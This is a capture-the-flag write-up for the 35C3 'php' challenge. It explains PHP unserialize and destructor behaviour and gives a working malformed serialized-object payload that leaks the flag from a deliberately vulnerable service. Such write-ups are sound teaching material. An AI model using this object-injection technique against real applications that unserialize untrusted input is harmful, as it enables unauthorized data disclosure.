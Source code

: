```yaml
---
layout: post
title: php
category: 35c3ctf
---
```


# php
>PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.  
>Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: `nc 35.242.207.13 1`

The tarball contains the following php code:

```php
<?php

$line = trim(fgets(STDIN));
$flag = file_get_contents('./flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

and the service running at `35.242.207.13 1` verifies that it's running the above code.

```bash
➜ nc 35.242.207.13 1
test input
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

From the source code and challenge description, it's obvious this is a PHP deserialization challenge. Our goal is clear, serialize some PHP code that will force the destructor of `B` to be called, echo-ing the flag to our console, _before_ the exception is thrown.

So how exactly do you call a class destructor in PHP? Well, the destructor will be called when the all references to the object are freed or when the script terminates properly - i.e. without any thrown exceptions. Since the exception will be thrown directly after the unserialize call, we can't rely on the script properly terminating. We must call the `__destruct()` function ourselves, ensuring it's done prior the the exception.

One last thing to note before we try any exploits - the `@` symbol before `unserialize()`. For those unfamiliar, when `@` is prepended to a function, any error messages that function may produce will be completely ignored (see: [PHP Error Controls Operators](http://php.net/manual/en/language.operators.errorcontrol.php)). If we were to ignore this symbol, we may still get the flag, but not understand why we were able it.

## Solution
From our static analysis, we have a solid idea on the attack vector for this challenge. First let's verify our above analysis by creating a simple serialized object.

```bash
➜ php -a
Interactive shell

php > $flag = "35C3_test_flag_";
php > class B {
php { function __destruct() {
php { global $flag;
php { echo $flag;
php { }
php { }
php > $xpl = new B;
php > echo serialize($xpl);
O:1:"B":0:{}
php >
```
PHP serialized objects are structured as a key-value pairs. Breaking down our serialized object, we have an object `B` (of name length `1`), with `0` properties. For more information, see: [PHP Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html) and [Fuzzing Unserialize](https://www.evonide.com/fuzzing-unserialize/).

With this knowledge, we can abuse the error suppression to create and destroy an object without causing the script to terminate. By sending `@unserialize()` a bad serial, e.g. `O:1:"B":1:{}` or `O:1:"B":0:{b}`, we force the code to instantiate a new object `B` and then free the object (i.e. called the destructor) due to a bad serial exception. The `@` symbol will force the code to ignore the exception and continue executing.

```bash
➜ php nc 35.242.207.13 1
O:1:"B":1:{}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
 thrown in /home/user/php.php on line 16
 ```
